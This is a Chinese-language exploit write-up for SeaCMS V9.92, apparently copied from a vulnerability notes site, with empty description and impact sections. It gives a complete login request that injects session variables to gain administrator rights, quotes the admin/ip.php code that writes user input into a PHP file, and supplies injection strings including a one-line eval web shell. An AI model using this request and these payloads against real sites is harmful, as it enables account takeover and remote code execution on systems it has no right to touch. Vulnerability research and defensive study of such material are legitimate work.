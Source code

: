 # Seacms V9.92 越权+Getshell

> 原文：[http://book.iwonder.run/0day/Seacms/Seacms9.92.html](http://book.iwonder.run/0day/Seacms/Seacms9.92.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 越权

#### 1、首先注册一个普通用户

#### 2、burp 抓包改包，下面是发送 payload

```
POST /login.php HTTP/1.1
Host: 0-sec.org
Content-Length: 49
Cache-Control: max-age=0
Origin: http://192.168.8.143
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.8.143/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9smu8an6nvbrqasp5m0o4bmts7
Connection: close

dopost=login&userid=test&pwd=123456&validate=djyf&_SESSION[sea_admin_id]=1&_SESSION[sea_ckstr]=djyf 
```

#### 3、 登陆后台页面，可以发现管理员账户变成-1 了,也同时拥有管理员的权限

### getshell

/admin/ip.php

```
if($action=="set")
{
    $v= $_POST['v'];
    $ip = $_POST['ip'];
    $open=fopen("../data/admin/ip.php","w" );
    $str='<?php ';
    $str.='$v = "';
    $str.="$v";
    $str.='"; ';
    $str.='$ip = "';
    $str.="$ip";
    $str.='"; ';
    $str.=" ?>";
    fwrite($open,$str);
    fclose($open);
    ShowMsg("成功保存设置!","admin_ip.php");
    exit; 
```

我们再去看一下 ip.php 格式

```
<?php $v = "0"; $ip = " ";  ?> 
```

我们可以构造一下,然后保存

```
*;phpinfo();// 
```

```
";@eval($_POST[pp]);// 
```

![image](img/fac44821aa83a7d03ac01f308b7efe11.png)

